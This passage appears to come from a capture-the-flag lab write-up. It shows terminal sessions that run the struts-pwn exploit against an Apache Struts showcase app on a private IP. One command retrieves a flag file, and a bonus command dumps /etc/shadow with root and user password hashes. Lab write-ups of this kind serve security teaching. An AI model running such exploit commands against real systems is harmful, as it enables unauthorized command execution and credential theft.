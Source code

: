 ```js
┌──(root㉿kali)-[/home/…/Desktop/internship/oxygen/struts-pwn]
└─# python struts-pwn.py --url 'http://192.168.8.114:8080/showcase.action' -c 'cat /var/secret/flag.txt'

[*] URL: http://192.168.8.114:8080/showcase.action
[*] CMD: cat /var/secret/flag.txt
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ("Connection broken: InvalidChunkLength(got length b'', 0 bytes read)", InvalidChunkLength(got length b'', 0 bytes read))
Note: Server Connection Closed Prematurely

flag{7fc4b2162cc4d91d5ababf66c968380d}

[%] Done.
```

We got the flag.

## Bonus

```js
┌──(root㉿kali)-[/home/…/Desktop/internship/oxygen/struts-pwn]
└─# python struts-pwn.py --url 'http://192.168.8.114:8080/showcase.action' -c 'cat /etc/shadow'

[*] URL: http://192.168.8.114:8080/showcase.action
[*] CMD: cat /etc/shadow
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ("Connection broken: InvalidChunkLength(got length b'', 0 bytes read)", InvalidChunkLength(got length b'', 0 bytes read))
Note: Server Connection Closed Prematurely

root:$6$2G8KrtUL$hxJuBdQdvFWqWKwzzudZ.P/JYlQGAQAPlzPZhoODv2Kdig8X4VqFXF63DkGUK1osqDpdiCKqjala/YM3h9vka.:17947:0:99999:7:::
daemon:*:17945:0:99999:7:::
bin:*:17945:0:99999:7:::
sys:*:17945:0:99999:7:::
sync:*:17945:0:99999:7:::
games:*:17945:0:99999:7:::
man:*:17945:0:99999:7:::
lp:*:17945:0:99999:7:::
mail:*:17945:0:99999:7:::
news:*:17945:0:99999:7:::
uucp:*:17945:0:99999:7:::
proxy:*:17945:0:99999:7:::
www-data:*:17945:0:99999:7:::
backup:*:17945:0:99999:7:::
list:*:17945:0:99999:7:::
irc:*:17945:0:99999:7:::
gnats:*:17945:0:99999:7:::
nobody:*:17945:0:99999:7:::
systemd-timesync:*:17945:0:99999:7:::
systemd-network:*:17945:0:99999:7:::
systemd-resolve:*:17945:0:99999:7:::
systemd-bus-proxy:*:17945:0:99999:7:::
_apt:*:17945:0:99999:7:::
messagebus:*:17945:0:99999:7:::
jimmy:$6$4zCTIlcp$OcsDPbTu9a7tQammSKsLVUj2uXaFIeE3EGNOSMf0RnAgzMXGDaGneYyyb2Q1xdZ098taNijyid2VQEg8Es0Jc/:17946:0:99999:7:::
sshd:*:17945:0:99999:7:::

[%] Done.
```